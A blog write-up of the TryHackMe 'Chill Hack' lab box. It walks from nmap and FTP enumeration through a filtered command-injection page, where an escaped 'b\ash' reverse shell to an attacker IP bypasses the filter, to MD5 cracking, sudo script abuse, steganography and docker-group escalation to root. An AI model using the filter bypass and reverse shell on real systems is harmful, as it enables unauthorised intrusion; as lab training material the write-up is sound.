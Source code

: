 ```yaml
---
layout: blog.html
title: "TryHackMe - Chill Hack"
date: 2022-05-03
thumbnail: "https://jacen-safe.s3.us-west-004.backblazeb2.com/IUbwjvbt2gv8.png"
---
```


[Chill Hack](https://tryhackme.com/room/chillhack) is an easy-ranked box. Unfortunately, it wasn't the most fun box to do, with a handful of unrealistic and unintuitive stops along the killchain.
<!-- more -->

## Nmap Enumeration
As ever, the first thing to do is run an nmap scan to see what services are accessible to us on the box. People always have their own methodology for what command line options to use, but here are the ones I went with.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we’re working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oA`: Outputs the result of the command into several file formats. Having a persistent record of the scan to go back to later is always useful.

```bash
nmap -sC -sV -vvv -oA nmap/initial 10.10.86.64
```

It's good to do a quick basic nmap scan of the top 1000 ports first to have a starting point and then run a second more comprehensive scan in the background later. In this case, the first scan gives us pretty much all the information we'll need to proceed.

Nmap finds three open ports: port 21 running FTP, port 22 running SSH, and port 80 hosting an HTTP server.

Thanks to running the default scripts, we also know that the FTP server allows anonymous login and that there's a potentially interesting file sitting on it.

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
```

## FTP/HTTP Enumeration
Since the FTP server is such a low-hanging fruit and it'll be very quick to check out, we'll start there. We can confirm that anonymous login does indeed work on the server, and that the file on it is accessible to us.

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

There's not much else to see there, so we'll move onto the web server. At first glance, the site seems to just be a flat HTML website without much of an attack area, so we'll pass things along to a directory brute force tool (in my case, Feroxbuster) to see if there's anything hidden from us.

Sure enough, Feroxbuster finds a `/secret` directory that seems to have a place for us to input arbitrary shell commands.

![Secret Directory](https://i.snap.as/KXH2FfXQ.png)

## Command Injection
We can deduce from the note on the FTP server that there is some sort of protection in place to keep us from having free rein of the capability. Running `whoami` confirms that we do have the ability to run commands and that we'll be running as the `www-data` user.

![whoami Output](https://i.snap.as/aU53LhIn.png)

Next we'll try running `bash -c` to see if we can get a reverse shell that way. Unsurprisingly, we trigger the filter.

![Command Filter](https://i.snap.as/CCyeTHQR.png)

A common way of bypassing these kinds of filters is escaping characters. Escape characters like `\n` or `\t` can affect how text is formatted, and escaping special characters like `\'` or `\\` lets us use special characters in places where they normally have special meaning. Escaping characters that don't have any special meaning, however, will simply output the character as normal.

![Filter Bypass](https://i.snap.as/7I3782km.png)

Now that we know we can bypass the filter, we can start building out a reverse shell to give us better access to the box.

```bash
b\ash -c "b\ash -i >& /dev/tcp/10.13.14.52/9001 0>&1"
```

## Privilege Escalation
We land as `www-data` in the `/var/www/html` directory. Poking around there, it we find that there's a second web app sitting in `/var/www/files`. In there, we have a PHP file that includes a MySQL configuration.

```php
$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
```

Unfortunately, that password doesn't work as the `root` password, but we can still poke at the MySQL database. There's a `users` table in the `webportal` database, so we can pull a pair of MD5 hashed passwords.

```
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)
```

MD5 us a very broken hashing algorithm, so we're able to just run them through CrackStation to get the passwords.

![CrackStation Output](https://i.snap.as/2nbuu9VS.png)

Unfortunately, these passwords don't work on any of the accounts on the box either.

Enumerating the accounts on the box, we have three users outside of `root`: `anurodh`, `apaar`, and `aurick`. Interestingly, we have read access to `apaar`'s home directory. Even more interestingly, there's a shell script called `.helpline.sh` with another command injection vulnerability. And even more interestingly, we can run that script as `apaar`.

```bash
read -p "Enter the person whom you want to talk with: " person
read -p "Hello user! I am $person,  Please enter your message: " msg
$msg 2>/dev/null
```

```
www-data@ubuntu:/$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

If we input `bash` at the `msg` prompt, we land in a bash shell as the `apaar` user. From here we can grab the user flag in the `local.txt` file. We can drop an SSH key in here as well to give us a better, more friendly shell.

## Privesc 2: Electric Boogaloo
Unfortunately, `apaar` doesn't give us a lot of additional permissions, so we'll need to keep poking. Checking `netstat`, there's another service available only to localhost on port 9001 that we can check next.

```
apaar@ubuntu:~$ netstat -lpnut
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 10.10.86.64:68          0.0.0.0:*                           -
```

Since we already have SSH access, we can use SSH port forwarding to look at it on our local machine.

```bash
ssh -i apaar.key -L 9001:127.0.0.1:9001 apaar@10.10.86.64
```

Checking this new port out, it turns out it's running a web server. We're greeted with a login page.

![Login Page](https://i.snap.as/t3prB7mA.png)

From the PHP code we found earlier, we know that this app is vulnerable to SQL injection, and from the database dump we know the usernames and passwords to log in. Either way, we get in.

![After Login](https://i.snap.as/diGCwwjP.png)

Not much to go on here. We have to take a bit of a leap of faith and investigate the image. Turns out it has some steganography in it.

```
$ steghide info hacker-with-laptop_23-2147985341.jpg
"hacker-with-laptop_23-2147985341.jpg":
  format: jpeg
  capacity: 3.6 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "backup.zip":
    size: 750.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
                                                                                                                     
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
Enter passphrase: 
wrote extracted data to "backup.zip".
```

The zip has one file, but it's password protected. That's nothing John The Ripper and rockyou.txt can't take care of. The PHP file includes a Base64 encoded password and a reference to Anurodh, which matches one of the usernames we found earlier.

## I Am Root
With the new password, we're able to SSH into the box as the `anurodh` user. It turns out Anurodh is a member of the `docker` group, which could be a potential escalation vector.

```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

With a little help from [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), we can mount the filesystem into a Docker image, which will give us free rein to view whatever files we want, including the root flag in the `proof.txt` file.